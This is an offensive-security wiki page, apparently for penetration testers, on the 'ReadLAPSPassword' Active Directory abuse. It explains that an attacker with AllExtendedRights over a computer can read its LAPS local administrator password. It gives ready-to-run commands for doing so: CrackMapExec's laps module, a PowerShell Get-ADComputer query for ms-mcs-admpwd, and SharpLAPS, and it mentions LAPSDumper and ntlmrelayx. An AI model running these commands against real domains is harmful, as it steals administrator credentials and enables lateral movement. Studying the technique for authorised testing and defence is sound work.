 # ReadLAPSPassword

This abuse can be carried out when controlling an object that has `AllExtendedRights` over a target computer. The attacker can then read the LAPS password of the computer account. 

{% tabs %}
{% tab title="First Tab" %}
From UNIX-like systems, [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) can be used to retrieve LAPS passwords \(this only works since v5.1.6\).

```bash
# Default command
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps

# The COMPUTER filter can be the name or wildcard (e.g. WIN-S10, WIN-* etc. Default: *)
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps -O computer="target-*"
```

There are other alternative like [LAPSDumper](https://github.com/n00py/LAPSDumper) \(Python\) or [this public module](https://github.com/T3KX/Crackmapexec-LAPS) for CrackMapExec.

Impacket's ntlmrelayx also carries that feature, usable with the `--dump-laps`.
{% endtab %}

{% tab title="Windows" %}
This can be achieved with the Active Directory PowerShell module.

```bash
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

[SharpLAPS](https://github.com/swisskyrepo/SharpLAPS) \(C\#\) automates that process. 

```bash
SharpLAPS.exe /user:"DOMAIN\User" /pass:"Password" /host:"192.168.1.1"
```
{% endtab %}
{% endtabs %}

